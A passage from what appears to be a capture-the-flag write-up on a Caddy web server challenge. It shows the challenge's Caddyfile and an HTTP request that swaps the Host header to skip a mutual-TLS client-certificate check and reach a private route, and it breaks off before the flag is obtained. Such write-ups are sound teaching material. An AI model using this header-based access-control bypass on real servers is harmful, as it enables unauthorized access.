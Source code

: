 ```
        templates
        respond /cat     `\{\{ cat "HELLO" "WORLD" \}\}`
        respond /fetch/* `\{\{ httpInclude "/{http.request.orig_uri.path.1}" \}\}`
        respond /headers `\{\{ .Req.Header | mustToPrettyJson \}\}`
        respond /ip      `\{\{ .ClientIP \}\}`
        respond /whoami  `{http.auth.user.id}`
        respond "UNKNOWN ACTION"
}
```

Let's change the `Host` header and try accessing it _(the actual target is still https://caddy.chall-kalmarc.tf)_:

Request:

```
GET / HTTP/2
Host: private.caddy.chal-kalmarc.tf

```

Response:

```
HTTP/2 200 OK
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 14
Date: Sat, 15 Mar 2025 13:04:00 GMT

UNKNOWN ACTION
```

Success! We got the execution of the last directive:

```Caddyfile
respond "UNKNOWN ACTION"
```

which means we bypassed the first validation:

```Caddyfile
# Only admin with local mTLS cert can access
tls internal {
        client_auth {
                mode require_and_verify
                trust_pool pki_root {
                        authority local
                }
        }
}
```

Great! If we try to access the flag directly:

```Caddyfile
route /flag {
        @denied1 not remote_ip 127.0.0.1
        respond @denied1 "No ..."

        # To be really really sure nobody gets the flag
        @denied2 `1 == 1`
        respond @denied2 "Would be too easy, right?"

        # Okay, you can have the flag:
        respond {$FLAG}
}
```
